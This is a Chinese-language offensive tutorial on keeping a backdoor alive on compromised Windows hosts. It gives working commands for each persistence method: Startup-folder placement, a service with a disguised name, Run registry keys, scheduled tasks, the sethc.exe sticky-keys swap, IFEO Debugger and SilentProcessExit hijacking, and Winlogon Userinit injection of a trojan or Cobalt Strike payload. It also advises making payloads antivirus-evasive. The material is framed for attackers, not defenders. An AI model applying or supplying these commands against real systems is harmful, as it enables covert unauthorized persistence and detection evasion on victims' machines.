# 1. 前置

在Windows系统中，很多后门利用的方式不是太会区别在域中还是单机上，只是需要考虑在没有网络情况下，如何将shell反弹回来，就比如，在域中一个无网络的主机和一台有网络的主机，前期通过有网络的主机转发上线到无网络主机上，那么我们木马是不是也可以这样设置，在无网络中设置一个正向木马，让其在运行，在有网络中设置一个反向的木马，让其运行，那么我们去连接的时候只要去连接反向木马就可以了，然后在通过这个反向木马去连接正向木马，不就可以了。

当然上面都是理想环境，在实际的环境中可能更加的复杂，所以还是需要仔细想一想的。

这次关于Windows权限维持基本上都是在单机环境下测试，其实和在域内测试的效果是一样的，只是域内相对来说需要考虑有没有网络，如何出网等。

# 2. 自启动

所谓的自启动，想必应该都知道，通常你会发现你再电脑上下载了很多软件，都会有一个开启自启，其实就是将该软件的程序嵌入到系统的自启动中，当下次开机的时候，就会自动运行。

## 2.1. 路径加载

路径加载也就是说将木马文件放置在系统的自启动目录下，来对文件进行执行。

### 2.1.1. 放置文件

这里要注意，通常我们所使用的系统都是中文版的，有些系统可能被调整过所以在目录中显示的都是英文，而有些会出现是中文的情况，下面的这台虚拟机就是这样的。

```
C:\Users\Administrator\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\    ##英文
C:\Users\Administrator\AppData\Roaming\Microsoft\Windows\开始菜单\程序\启动\    ##中文
```



### 2.1.2. 重启主机

对主机重启后发现，主机自动上线了，但是好像还是有点小问题的，主机上会莫名其妙的出现几个黑色弹窗，遇到有经验的肯定会出现怀疑的，不过也不知道是不是我的环境有问题。



## 2.2. 服务加载

服务加载就是借助服务程序实现自动上线，比如创建一个服务，将服务指向木马，并将启动类型调整为自动，那么下次开机的时候，就会自动执行木马。

### 2.2.1. 创建服务

这里需要知道，当获取到目标主机后，现在的操作都是在进行权限维持，而不是在说如何获取权限或者获取主机的操作。

这里创建服务需要提权后进行创建，普通的管理员权限好像是无法创建服务的，同时服务的名字最好仿照一下必要的程序进行仿写，比如server，你可以加个s等.....

```
sc create Muma binPath= C:\1\3000.exe start= auto    #创建自启动服务 路径执行木马
sc delete Muma   #删除该服务
```



### 2.2.2. 查看服务

可以看到该服务是绑定了木马，同时这些反弹shell的木马都比较小，运行起来基本上都是无感操作。



### 2.2.3. 重启主机

这里重启主机是为了让系统加载服务，刚创建的服务是无法直接运行的，当然你也可以手动运行，不过我们也是为了保障后续能够继续利用，所以我们没必要急着运行程序。

等待目标主机重启即可。



## 2.3. 注册表加载

注册表加载就是将木马添加到注册表中，让注册表进行加载。

### 2.3.1. 添加启动项

这里不同的类型的注册表路径是不同的，同时有当前用户的，也有直接是服务器的，当前用户的基本上你获取到用户权限就可以添加了，而且服务器也就是system权限，这个是需要提权的。

```
当前用户键值注册表路径:
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run
服务器键值注册表路径（需要管理员权限）:
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run 
```

```
REG ADD "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /V "backdoor" /t REG_SZ /F /D "C:\1\3000.exe"
```



### 2.3.2. 查看注册表

```
regedit ##查看注册表
```



### 2.3.3. 重启主机

重启后可以看到成功上线了。


# 3. 计划任务

关于Windows的计划任务，在Windows系统<2012的时候可以使用at命令，从Windows server 2012之后就不可以使用at命令了，而改成schtasks来进行添加计划任务，同时at命令默认是以system权限执行。

关于具体的用法可以自行百度搜索，这里就不作很详细的演示了。

## 3.1. 创建计划任务

创建一个名为TestService的计划任务，并在每天的9.46分运行C盘下1目录中的3000.exe程序。

```
创建任务：schtasks /Create /TN TestService /SC DAILY /ST 09:46 /TR c:\1\3000.exe /RL HIGHEST  
查看任务：SchTasks /Query /TN TestService
删除任务：SchTasks /Delete /TN TestService [/f]
```



## 3.2. 查看效果

这里只要到时间了，计划任务就会运行，当运行后程序就会上线。



# 4. 粘滞键

Shift粘滞键是当用户连按5次shift就会自动弹出的一个程序，其实不光是粘滞键，还有各种辅助功能，这类辅助功能都拥有一个特点就是当用户未进行登录时也可以触发。所以攻击者很有可能通过篡改这些辅助功能的指向程序来达到权限维持的目的。

粘滞键位置：C:\windows\system32\sethc.exe

## 4.1. 替换粘滞键

这里是有一个问题的就是必须是system权限才能执行，administrator都是无法对其进行修改的。

```
move sethc.exe sethc1.exe
copy cmd.exe sethc.exe
```



## 4.2. 整体思路

这里的整体思路就是通过修改这个粘滞键程序，将后门木马或者cmd修改为这个粘滞键程序的名字，然后再登陆窗口按5次Shift粘滞键就会调用。

而高版本的Windows系统中是无法使用了。

# 5. 映像劫持

映像劫持是利用Windows的IFEO（Image File Execution  Options）功能来实现的。IFEO实际上是Windows的一项正常功能，主要用于调试程序，其初衷是在程序启动的时候开启调试器来调试程序，这样一来可以在调试器中观察程序在难以重现的环境中的行为。

简单来说就是，通过修改程序指定的注册表实现程序的劫持，当运行程序的时候实际上运行的是我们留的后门程序。

一个程序当要运行的时候，会去检查注册表，如果有指定的程序并且开启了debugger，那么会优先执行gebuggr指定的程序，这样就会造成映像劫持。

## 5.1. 查看注册表

通过查看注册表会发现，这个注册表下有很多的exe程序，我们可以通过修改这些表项来实现劫持的效果，当然也可以自己添加一个指定的exe表现实现劫持。

```
注册表位置：HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options
```



## 5.2. 普通劫持测试

这里我们将记事本劫持为计算器，当然计算机也可以修改为自己的木马，让其上线。

```
REG ADD "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\notepad.exe" /v Debugger /d "c:\windows\system32\calc.exe" /reg:32

REG DELETE "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\notepad.exe" /v Debugger /d "c:\windows\system32\calc.exe" /reg:32
```



## 5.3. 隐藏劫持测试

隐藏劫持就是配合GlobalFlag来实现，执行正常关闭后触发，也就是说当记事本执行后，木马是不会被执行的，同时记事本依旧是能够正常运行的，相当于无感操作，但是当关闭记事本的时候，就会自动触发执行后门木马。

### 5.3.1. 操作演示

这里我们修改一下，自行看命令，把一些内容修改成你自己的即可。

```
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\notepad.exe" /v GlobalFlag /t REG_DWORD /d 512
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\notepad.exe" /v ReportingMode /t REG_DWORD /d 1
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\notepad.exe" /v MonitorProcess /d "C:\1\3000.exe"
```



### 5.3.2. 查看效果

这里我们打开记事本后再点击关闭，目标主机就自动上线了。



# 6. 屏保&登陆

这个就是利用在锁屏后登陆的时候触发的一些程序，在这些程序后添加还要运行的程序即可。

## 6.1. 配合无文件落地上线

其实也就是修改注册表在对应的值中加入木马路径，当触发登陆就会自动执行了木马。

### 6.1.1. 查看注册表

在`HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon`中的`Userinit`对于的值是当前用户登陆的时候会触发的程序，这里我们就在这个值后面添加木马路径。



### 6.1.2. 修改注册表

这里是需要权限的，使用普通用户的权限可能无法执行，所以依旧需要提权后操作。

```
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /V "Userinit" /t REG_SZ /F /D "C:\Windows\System32\userinit.exe,C:\1\3000.exe"
```



### 6.1.3. 查看效果

可以看到重启或者锁屏后重新登陆即可上线。



## 6.2. payload上线

这里是采用cs中的payload进行上线。

### 6.2.1. 生成payload

这里选择有效载荷》payload生成器》选择监听器》类型选择powershell command。



### 6.2.2. 修改注册表

这里一定要注意payload一定要免杀，否则百分比会被杀。

```
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /V "Userinit" /t REG_SZ /F /D "C:\Windows\System32\userinit.exe,payload"   ##要注意这个payload就是将cs生成的paylod复制上去，由于太大了，就不输入了。
```

